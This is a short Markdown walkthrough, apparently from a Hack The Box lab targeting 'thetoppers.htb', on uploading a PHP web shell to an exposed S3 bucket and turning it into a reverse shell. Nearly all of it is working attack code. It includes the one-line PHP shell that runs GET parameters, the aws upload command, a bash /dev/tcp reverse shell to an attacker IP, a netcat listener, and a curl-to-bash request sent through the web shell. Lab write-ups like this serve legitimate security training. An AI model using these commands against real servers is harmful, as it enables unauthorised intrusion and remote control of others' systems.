
## REVERSE SHELL UPLOADING  PHP FILE

1. Investigate accessible subdomains using gobuster.
2. Check if there are any files in the subdomain's bucket (e.g., index.php).
3. Create a script (e.g., in PHP if an index.php is found) to execute commands on the page's endpoint.
````bash
<?php system($_GET["cmd"]); ?>
````
4. Add the script that allows us to send commands through the endpoint:
````bash
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
````
5. Use `ifconfig` to determine our IP address and create the reverse shell command using https://www.revshells.com:
````bash
echo 'bash -c "bash -i >& /dev/tcp/10.10.15.142/443 0>&1"' > shell.sh
```` 
6. Open a server on our machine to connect to the reverse shell:
````bash
python3 -m http.server 8080
```` 
7. Use `netcat` to gain access to the reverse shell:
````bash
sudo nc -lvnp 443
````
8. Curl the file containing the reverse shell script on our machine using the exposed IP (in this case, tun0) and port. Create a pipe so that when the curl is performed, it enters bash. (Note: `%20` represents a space character.)
````bash
http://thetoppers.htb/shell.php?cmd=curl%2010.10.15.142:8080/shell.sh|bash
````
9. Once executed, access to the target machine should be achieved at the location where `netcat` was running.
